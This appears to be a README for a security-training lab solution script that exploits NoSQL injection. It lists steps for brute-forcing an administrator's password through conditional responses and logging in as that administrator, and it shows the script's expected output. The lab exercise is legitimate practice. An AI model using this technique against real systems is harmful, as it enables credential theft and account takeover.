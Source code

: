 # Hack Steps

1. Fetch the login page
2. Extract csrf token and session cookie
3. Login as wiener to get a valid session
4. inject payload into 'user' query parametr to determine the length of administrator's password based on conditional responses
5. Modify the payload to brute force the administrator's password
6. Fetch the login page
7. Extract csrf token and session cookie
8. Login as the administrator
9. Fetch the administrator profile

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python exploiting_nosql_injection_to_extract_data.py
```

# Expected Output

```
⟪#⟫ Injection parameter: user
⦗1⦘ Fetching login page.. OK
⦗2⦘ Extracting csrf token and session cookie.. OK
⦗3⦘ Logging in as wiener to get a valid session.. OK
⦗4⦘ Checking if administrator password length = 3 
⦗4⦘ Checking if administrator password length = 5
                            ................
⦗4⦘ Checking if administrator password length = 8 [ Correct length: 8 ]
⦗5⦘ Cracking administrator password, check if char at position 2  =  b [ Correct password: yzb ]
⦗5⦘ Cracking administrator password, check if char at position 5  =  u [ Correct password: yzbmiu ]
                            ................
⦗5⦘ Cracking administrator password, check if char at position 7  =  s [ Correct password: yzbmiuss ]
⦗6⦘ Fetching login page.. OK
⦗7⦘ Extracting csrf token and session cookie.. OK
⦗8⦘ Logging in as the administrator.. OK
⦗9⦘ Fetching the administrator profile.. OK
🗹 Check your browser, it should be marked now as solved
```
